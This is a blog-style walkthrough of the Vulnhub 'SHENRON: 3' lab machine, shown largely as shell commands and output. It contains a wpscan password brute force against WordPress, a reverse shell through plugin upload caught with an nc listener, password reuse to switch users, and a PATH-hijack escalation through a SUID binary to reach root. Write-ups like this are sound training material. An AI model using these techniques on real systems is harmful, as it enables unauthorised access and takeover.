 ```yaml
---
layout: post
title:  "Vulnhub: SHENRON: 3"
date:   2021-05-02 20:00:00 +1000
category: hacking
---
```


## SHENRON: 3
This is [SHENRON: 3](https://www.vulnhub.com/entry/shenron-3,682/) from Vulnhub. It says that it is 'beginner'. Well some days I still feel like a beginner, so okey dokey. Actually I think that's about right for the foothold, not so sure for the privesc. Anyway!

## Ports
HTTP only.

## Web
It's wordpress, with a relatively simple password so it's a password attack:

{% highlight shell %}
┌──(root💀kali)-[/opt/vulnhub/shenron3]
└─# wpscan -U admin -P /usr/share/wordlists/rockyou.txt --url http://shenron                                                       4 ⨯
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.17
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://shenron/ [192.168.1.215]
[+] Started: Sun May  2 05:54:48 2021
# etc
[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - admin / iloverockyou                                                                                                       
Trying admin / imhere Time: 00:04:19 <                                                       > (31535 / 14375927)  0.21%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: admin, Password: iloverockyou
# more etc
{% endhighlight %}

Once logged in, I upload a new plugin (shell, zipped) and activate it; nice and easy. Just by the way if anyone else ever reads this I've definitely explained this before that's why I'm not detailing the steps here. There's a bit more detail [here](https://blog.gibbons.digital/hacking/2021/03/09/wekor.html), but it's basically create a reverse shell (one liner is fine) in a specific wordpress plugin format, zip it and then use the GUI to upload and activate it. Work through the *plugins* menu. Make sure the listener is started and you will see this:

{% highlight shell %}
┌──(root💀kali)-[/opt/vulnhub/shenron3]
└─# nc -nvlp 1234        
listening on [any] 1234 ...
connect to [192.168.1.210] from (UNKNOWN) [192.168.1.215] 41256
bash: cannot set terminal process group (500): Inappropriate ioctl for device
bash: no job control in this shell
www-data@shenron:/var/www/html/wp-admin$ python3 -c 'import pty;pty.spawn("/bin/bash");'
<in$ python3 -c 'import pty;pty.spawn("/bin/bash");'
# etc
{% endhighlight %}

## Privesc
We can use our password from before to become *shenron*:

{% highlight shell %}
www-data@shenron:/var/www/html$ su shenron
su shenron
Password: iloverockyou

shenron@shenron:/var/www/html$ sudo -l
sudo -l
[sudo] password for shenron: iloverockyou

Sorry, user shenron may not run sudo on shenron.
{% endhighlight %}

Now what? We have a file:

{% highlight shell %}
shenron@shenron:~$ ls -lash
ls -lash
total 48K
4.0K drwx------ 3 shenron shenron 4.0K Apr 16 15:11 .
4.0K drwxr-xr-x 3 root    root    4.0K Apr 15 18:41 ..
4.0K -rwx------ 1 shenron shenron  220 Apr 15 18:41 .bash_logout
4.0K -rwx------ 1 shenron shenron 3.7K Apr 15 18:41 .bashrc
4.0K drwx------ 2 shenron shenron 4.0K Apr 15 18:49 .cache
4.0K -rwx------ 1 shenron shenron   33 Apr 16 10:20 local.txt
 20K -rwsr-xr-x 1 root    root     17K Apr 15 21:58 network
4.0K -rwx------ 1 shenron shenron  807 Apr 15 18:41 .profile
   0 -rwx------ 1 shenron shenron    0 Apr 15 18:49 .sudo_as_admin_successful
shenron@shenron:~$ file network
file network
network: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=6476f9265aa3cac2c49457d79d33714b65d2644e, for GNU/Linux 3.2.0, not stripped
shenron@shenron:~$ strings network
strings network

Command 'strings' not found, but can be installed with:

apt install binutils
Please ask your administrator.

shenron@shenron:~$ gdb network
gdb network

Command 'gdb' not found, but can be installed with:

apt install gdb
Please ask your administrator.
{% endhighlight %}

It's SUID (hence the S bit), but we can't immediately see what it does. It's not a standard linux binary. We could probably exfil it if we really tried, but let's just run it (this is probably a bad idea):

{% highlight shell %}
shenron@shenron:~$ ./network
./network
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      506/mysqld          
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      321/systemd-resolve 
tcp6       0      0 :::80                   :::*                    LISTEN      500/apache2         
udp        0      0 127.0.0.53:53           0.0.0.0:*                           321/systemd-resolve 
udp        0      0 192.168.1.215:68        0.0.0.0:*                           245/systemd-network 
{% endhighlight %}

Does this look familiar? What it we do this?

{% highlight shell %}
shenron@shenron:~$ netstat -ntp
netstat -ntp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (w/o servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 192.168.1.215:41256     192.168.1.210:1234      ESTABLISHED -                   
tcp6       0      0 192.168.1.215:80        192.168.1.210:52372     ESTABLISHED -       
{% endhighlight %}

So at this point I'm assuming the *network* binary is calling *netstat*, probably without a path since this is a CTF and we want to be root :) Let's go:

{% highlight shell %}
shenron@shenron:~$ which netstat
which netstat
/usr/bin/netstat
shenron@shenron:~$ echo sh > netstat
echo sh > netstat
shenron@shenron:~$ chmod +x netstat
chmod +x netstat
shenron@shenron:~$ export PATH=./:$PATH
export PATH=./:$PATH
shenron@shenron:~$ ./network
./network
# id;hostname;date
id;hostname;date
uid=0(root) gid=0(root) groups=0(root),1000(shenron)
shenron
Sun 02 May 2021 03:42:36 PM IST
# cat /root/root.txt
cat /root/root.txt
# ASCII art removed
                                                               
Your Root Flag Is Here :- a7ed78963dffd9450a34fcc4a0eecb98

Keep Supporting Me. ;-)              
{% endhighlight %}

Well, that was a good guess.
